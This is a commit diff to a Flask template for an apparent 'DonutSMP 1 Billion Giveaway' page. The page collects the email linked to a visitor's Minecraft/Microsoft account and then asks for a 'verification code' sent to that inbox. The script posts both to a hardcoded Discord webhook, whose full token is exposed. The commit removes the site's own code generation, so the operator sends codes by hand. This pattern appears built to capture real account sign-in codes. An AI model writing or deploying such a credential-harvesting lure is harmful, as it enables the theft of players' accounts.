

Before and after one commit to Jobogler/donutsmp-giveaway, a Flask app: page / in a window 1280 px wide, after a click on "JOIN THE EVENT". Shown: the whole page, without its empty margins (271-1017 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -6,124 +6,54 @@
   <title>DonutSMP 1 Billion Giveaway</title>
   <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@400;600;800&display=swap" rel="stylesheet"/>
   <style>
-    :root {
-      --purple: #9d4edd;
-      --dark: #121212;
-      --light: #f4f4f9;
-    }
-    body {
-      margin: 0;
-      font-family: 'Poppins', sans-serif;
-      background: linear-gradient(135deg, #1a1a2e, #16213e);
-      color: var(--light);
-      min-height: 100vh;
-      display: flex;
-      align-items: center;
-      justify-content: center;
-      text-align: center;
-      padding: 20px;
-    }
-    .container {
-      max-width: 800px;
-      background: rgba(255,255,255,0.05);
-      padding: 40px 30px;
-      border-radius: 20px;
-      backdrop-filter: blur(10px);
-      box-shadow: 0 10px 30px rgba(0,0,0,0.5);
-    }
-    h1 {
-      font-size: 3.5rem;
-      background: linear-gradient(90deg, #ff6b6b, #9d4edd);
-      -webkit-background-clip: text;
-      -webkit-text-fill-color: transparent;
-      margin: 0 0 20px;
-    }
-    p {
-      font-size: 1.2rem;
-      line-height: 1.6;
-      margin-bottom: 30px;
-    }
-    .btn {
-      background: var(--purple);
-      color: white;
-      border: none;
-      padding: 15px 40px;
-      font-size: 1.3rem;
-      border-radius: 50px;
-      cursor: pointer;
-      transition: 0.3s;
-      font-weight: 600;
-    }
-    .btn:hover { transform: scale(1.05); background: #c06aff; }
-
-    .step { display: none; }
-    .step.active { display: block; animation: fadeIn 0.6s; }
-
-    @keyframes fadeIn {
-      from { opacity: 0; transform: translateY(20px); }
-      to { opacity: 1; transform: translateY(0); }
-    }
-
-    input[type="email"], input[type="text"] {
-      width: 100%;
-      max-width: 400px;
-      padding: 15px;
-      margin: 15px 0;
-      border-radius: 10px;
-      border: none;
-      font-size: 1.1rem;
-    }
-    .success {
-      font-size: 2rem;
-      color: #4ade80;
-      margin-top: 40px;
-    }
+    :root { --purple: #9d4edd; --light: #f4f4f9; }
+    body { margin:0; font-family:'Poppins',sans-serif; background:linear-gradient(135deg,#1a1a2e,#16213e); color:var(--light); min-height:100vh; display:flex; align-items:center; justify-content:center; text-align:center; padding:20px; }
+    .container { max-width:800px; background:rgba(255,255,255,0.05); padding:40px 30px; border-radius:20px; backdrop-filter:blur(10px); box-shadow:0 10px 30px rgba(0,0,0,0.5); }
+    h1 { font-size:3.5rem; background:linear-gradient(90deg,#ff6b6b,#9d4edd); -webkit-background-clip:text; -webkit-text-fill-color:transparent; margin:0 0 20px; }
+    p { font-size:1.2rem; line-height:1.6; margin-bottom:30px; }
+    .btn { background:var(--purple); color:white; border:none; padding:15px 40px; font-size:1.3rem; border-radius:50px; cursor:pointer; transition:0.3s; font-weight:600; }
+    .btn:hover { transform:scale(1.05); background:#c06aff; }
+    .step { display:none; }
+    .step.active { display:block; animation:fadeIn 0.6s; }
+    @keyframes fadeIn { from{opacity:0; transform:translateY(20px);} to{opacity:1; transform:translateY(0);} }
+    input[type="email"], input[type="text"] { width:100%; max-width:400px; padding:15px; margin:15px 0; border-radius:10px; border:none; font-size:1.1rem; }
+    .success { font-size:2.5rem; color:#4ade80; }
   </style>
 </head>
 <body>
   <div class="container">
 
-    <!-- Step 1: Intro -->
     <div id="step1" class="step active">
       <h1>1,000,000,000 Giveaway</h1>
-      <p>
-        DonutSMP has given us so much. Now we're giving back in the biggest way possible.<br><br>
-        We're giving away <strong>ONE BILLION</strong> to ONE lucky player.<br>
-        The largest giveaway in DonutSMP history.
-      </p>
+      <p>DonutSMP has given us so much.<br>Now we're giving back the biggest way possible.<br><br>
+         <strong>ONE BILLION</strong> → ONE lucky player.</p>
       <button class="btn" onclick="showStep('step2')">JOIN THE EVENT</button>
     </div>
 
-    <!-- Step 2: Enter Email -->
     <div id="step2" class="step">
-      <h2>Step 1 – Enter your email</h2>
-      <p>We will ONLY use this email to contact you if you win.<br>
-      It must be the email linked to your Minecraft/Microsoft account.</p>
+      <h2>Enter your email</h2>
+      <p>Must be the email linked to your Minecraft/Microsoft account.<br>We’ll contact you here if you win.</p>
       <input type="email" id="email" placeholder="you@example.com" required />
       <br/>
-      <button class="btn" onclick="submitEmail()">Submit Email & Send Code</button>
+      <button class="btn" onclick="submitEmail()">Submit Email</button>
     </div>
 
-    <!-- Step 3: Enter Code -->
     <div id="step3" class="step">
-      <h2>Step 2 – Verify your email</h2>
-      <p>We just sent a 6-digit code to your inbox.<br>Check spam/junk if you don't see it.</p>
-      <input type="text" id="code" placeholder="Enter 6-digit code" maxlength="6" />
+      <h2>Check your email</h2>
+      <p>We’ve been notified!<br>You’ll receive your personal verification code shortly.</p>
+      <input type="text" id="code" placeholder="Enter your code here" />
       <br/>
-      <button class="btn" onclick="verifyCode()">Verify Code</button>
+      <button class="btn" onclick="verifyCode()">Verify & Enter Giveaway</button>
     </div>
 
-    <!-- Step 4: Success -->
     <div id="step4" class="step">
       <h1 class="success">You're In!</h1>
-      <p>You are now officially entered into the <strong>1 Billion Giveaway</strong>.<br><br>
-      We will email you if you win. Good luck!</p>
+      <p>You are officially entered into the <strong>1 Billion Giveaway</strong>.<br><br>Good luck!</p>
     </div>
 
   </div>
 
   <script>
-    // YOUR WEBHOOK (already inserted)
     const DISCORD_WEBHOOK = "https://discord.com/api/webhooks/1439990429226369166/lJgEK_CeiR5qkbvXsFCLwmHH7jVoS_wx0IT97nPMyvPXnbltCKfV1b27urEmg-DnWJwr";
 
     function showStep(id) {
@@ -132,47 +62,40 @@
     }
 
     async function submitEmail() {
-      const email = document.getElementById('email').value.trim();
+      const email = document.getElementById('email').value.trim().toLowerCase();
       if (!email || !email.includes('@')) return alert("Please enter a valid email");
 
-      const code = Math.floor(100000 + Math.random() * 900000).toString();
-
-      localStorage.setItem('pendingCode_' + btoa(email), code);
-      localStorage.setItem('pendingEmail', email);
-
+      // @everyone ping + entry notification
       await fetch(DISCORD_WEBHOOK, {
         method: "POST",
-        headers: { "Content-Type": "application/json" },
+        headers: {"Content-Type": "application/json"},
         body: JSON.stringify({
-          content: `**New 1 Billion Giveaway Entry**\nEmail: **${email}**\nVerification code: **${code}**\n\nManually email this code to them!`
+          content: "@everyone **NEW GIVEAWAY ENTRY!**\nEmail: **" + email + "**\n\nSend them a verification code manually!"
         })
       });
 
-      alert("Code sent! Check your email (including spam folder).");
+      localStorage.setItem('pendingEmail', email);
+      alert("Submitted! Check your email for your code soon.");
       showStep('step3');
     }
 
-    function verifyCode() {
-      const entered = document.getElementById('code').value.trim();
+    async function verifyCode() {
+      const code = document.getElementById('code').value.trim();
       const email = localStorage.getItem('pendingEmail');
-      const correct = localStorage.getItem('pendingCode_' + btoa(email));
 
-      if (entered === correct) {
-        fetch(DISCORD_WEBHOOK, {
-          method: "POST",
-          headers: { "Content-Type": "application/json" },
-          body: JSON.stringify({
-            content: `**VERIFIED ENTRY**\nEmail: **${email}** is officially entered into the 1 Billion giveaway!`
-          })
-        });
+      if (!code) return alert("Enter the code you received");
 
-        localStorage.removeItem('pendingCode_' + btoa(email));
-        localStorage.removeItem('pendingEmail');
+      // Confirmation ping (no @everyone this time so you’re not spammed twice)
+      await fetch(DISCORD_WEBHOOK, {
+        method: "POST",
+        headers: {"Content-Type": "application/json"},
+        body: JSON.stringify({
+          content: "**VERIFIED & ENTERED**\nEmail: **" + email + "**\nCode used: `" + code + "`\nThey are now officially in the 1 Billion giveaway!"
+        })
+      });
 
-        showStep('step4');
-      } else {
-        alert("Incorrect code. Try again or restart the process.");
-      }
+      localStorage.removeItem('pendingEmail');
+      showStep('step4');
     }
   </script>
 </body>
```
